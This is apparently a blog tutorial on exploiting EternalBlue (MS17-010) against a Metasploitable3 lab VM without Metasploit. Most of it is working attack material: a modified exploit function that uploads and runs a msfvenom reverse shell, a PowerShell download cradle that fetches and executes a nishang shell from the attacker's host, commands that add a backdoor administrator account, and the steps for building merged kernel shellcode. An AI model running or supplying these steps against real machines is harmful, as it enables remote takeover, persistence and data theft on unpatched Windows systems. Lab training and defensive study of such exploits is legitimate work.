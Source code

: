 ```yaml
---
layout: post
title:  "Eternal Blue without Metasploit"
date:   2019-10-15 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [Eternal, Blue, Without Metasploit, Exploit modification]
---
```


<h2>Prologue:</h2>
I wanted to create a Without Metasploit series. Here we would look and modify famous exploits without using the Metasploit framework. What would be the best way to start then with Eternal Blue?
<h3> Environment </h3>
The easiest way to find an environment to test on, is to get Hack The Box VIP and attack Blue.
Setting up your lockal vm, try Metasploitable 3 [Metasploitable3](https://github.com/rapid7/metasploitable3) 
I will go with the Metasploitable now. For the EternalBlue to work I had to thisable the firewall on metasploitable3.
Metasploitable ip: 10.0.2.15

Attacker
There are a few things you need to set up on your attacker machine too. First install pip, then impacket. Attacker IP: 10.0.2.4
```
sudo apt-get update
sudo apt install python-pip
git clone https://github.com/SecureAuthCorp/impacket
cd impacket-master
pip install .
```
From here it should work just fine.
<h3> The Exploit </h3>
If you do a ```searchsploit eternalblue``` you will get the exploit 42315.py
![searchsploit](/img/EternalBlue/searchspolit.png)
Copy it to our directory ```searchsploit -m 42315.py```

Now let's start to look at what do we have in this file.

first we can see the lines:
```from impacket import smb, smbconnection
from mysmb import MYSMB```
We already have impacket but what about mysmb? With a little googleing we can find that too.
```wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py```

Now we can go deeper.

```USERNAME = ''
PASSWORD = ''```
We should change this if we find valid smb credentials. Going a little be down, there is a nicely named function find_named_pipe. This means that we
don't need to run other exploit/scanning to find our named pipes because this is already included in the exploit itself. However checking the first lines
of the function reveals the default pipes that the function will search for. ```pipes = [ 'browser', 'spoolss', 'netlogon', 'lsarpc', 'samr' ]``` you can expend
this list if you did not succed for the first try.


<h4>Sample Request:</h4>
First, let's run it agains the target.
[FAIL](/img/EternalBlue/fail.png)
This did not go very well. No named Pipe was found. We can add more possible named pipe to our list, and give it another try. It failed again. From here we have another option. 
If we know valid credentials, then we could try to use it. Adding vagrant/vargrant to the Username Password section.
```USERNAME = 'vagrant'
PASSWORD = 'vagrant'```
Running the code it will execute and create C:\pwned.txt on the machine.
[PWNED](/img/EternalBlue/pwned.PNG)
We can log in and check the file. It should be there. That is ok but vagrant is an admin user. If we have credentials then we probably do not need this exploit at all.

<h3> Eternal Blue as Privilege escalation </h3>
Let's create a test user with test as password. User test should not be admin this time. By loging in as test, you can see that you are unable to create c:\pwned.txt.
[testUser](/img/EternalBlue/test.PNG)
Adding these credentials to our exploit and running it, will once again create the file pwned.txt This means that we have non-admin credentials but we could still execute commands as admin.
We can see on the included picture that user test cannot delete the file.
[testUser](/img/EternalBlue/delete.PNG)
<h3> Modifying the exploit</h3>
In case you can find a working pipe name or use credentials, creating a file on the target machine may not be that usefull for us. Let's modify the exploit code to get a reverse shell.
First let's find the exploit in the code. looking in the code, we can find a function called smb_pwn.
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	```
Let's look at it line by line. First line will create a smb connection. This is what we eill use to interact with the machine.
The next line is a print, this will just write a line for us so we know what is currently happening.
Then we will connect to the Driver C so we can egn our modification there. This is saved in a variable so in the next line we can finaly create a file called pwned.txt.
Finaly we will close the connection.
<h3> Upload shell</h3>
Let's create our reverse shell first:
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell-x86.exeThen modify the code so it will upload and run our exploit
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	smb_send_file(smbConn, 'shell-x86.exe', 'C', '/test.exe')
	service_exec(conn, r'c:\test.exe')
```
The function now only has 3 lines. First we create an smb connection. Then we send our exploit to the target, it will be created in C:/test.exe. Then in the last line we will execute our code and get a reverse shell on our machine on port 443.
First let's start a listener on our attacker machine then execute our code.
```nc-lvnp 443```
[UploadExploit](/img/EternalBlue/uploadExploit.PNG)
We can see that the exploit run and we got back a reverse shell as System.

<h3>To memory</h3>
We got what we wanted. But this is not the best case. We created a file in the system which is detectable. Let's find a better way. We saw that we can execute commands.
With the use of Powershell, we can download things on the machine and executing them while everything will be done in memory.
Let's download the famous nishang powershell shell
```wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1```
Now we have to modify this a little bit. to inmidiatly invoke the reverse shell we should add this line to the end of the file:
```Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 443```
This way when the file gets downloaded with powershell, we will immidiately call the main function with our ip address and port to connect back to. I also renamed the file to test.ps1
Next we need to download the file with our exploit. For this we only need one line in our function.
```service_exec(conn, r"cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.0.2.4/test.ps1')")```
Here we spawn cmd and from there we will call powershell to download and execute the ps1 script that is hosted in our machine. Notice that by adding the extra line to the script, we just need to download the file to get a revers shell.
Finaly we need to host the script somehow. For this go into the folder where the test.ps1 is located and create a http server. For example with:
```python -m SimpleHTTPServer 80```
We will need 3 command window for this to work. one to host our server, one for the listener and one which will execute theexploit itself.
[InvokeExploit](/img/EternalBlue/invoke.PNG)
We can see it worked. pulled the file from our server and we got the reverse shell back.
<h3>More sneaky</h3>
What if we do not want to connect back to our machine to download something, or simple we cannot somehow. We can be much more sneaky. Instead of loading in a reverse shell, we can simply create a new administrator.
This way we will have working admin credentials on the machine and we can connect to it with RDP or psexec. Let's take a look.
```service_exec(conn, r"cmd /c net user attacker2 PassW123 /add")
service_exec(conn, r"cmd /c net localgroup administrators attacker /add")```
Only these two lines are needed in our function and we already added a new administrator user. You will see errors while executing the command. But no worry it is fine in this case.
[addedUser](/img/EternalBlue/adduser.PNG)
Let's execute psexec from our impacket to connect to the machine as an administrator. Go to impacket/examples then run:
```python psexec.py attacker:PassW123@10.0.2.15```
[psexec](/img/EternalBlue/psexec.PNG)
<br>

<h3> Without Pipe or credentials </h3>
We looked at various ways to exploit eternal blue with pipename. But what if whe have no pipename. We need a way to still exploit it. We have one but it is more likely to crash the target. 
To make this work, first we need to clone the full repo of MS17-010 from worawit. 
```git clone https://github.com/worawit/MS17-010.git
cd MS17-010/
```
We will focus on the shellcode first. going into the folder shellcode and reading the file eternalblue_sc_merge.py we can get an idea how to create our shell code and use with this exploit. 
First we need to assemblée the shell code
```nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin```
Then we need to create our payload, but this time in raw format. Lest use the same shell, create two version of them like in the exploit code.
```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=445 -f raw -o sc_x86_msf.bin EXITFUNC=thread
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=445 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```
We will create our exploit in raw format and adding exitfunction to try to make a clean exit and minimalise the chance of crash.
Now we need to combine our payloads with the created shellcode then merge them.
```cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin```
We now have our exploit binary. all we have to do is to execute the exploit and wait for our shell.
Goind back one folder and executing eternal blue
```
cd ..
python eternalblue_exploit7.py 10.0.2.15 ./shellcode/sc_all.
```
[withoutPipe](/img/EternalBlue/final.PNG)
<h2>Summery:</h2>
We looked at multiple ways to exploit eternalBlue with and without pipename. We created reverse shells and injected our own administrator user.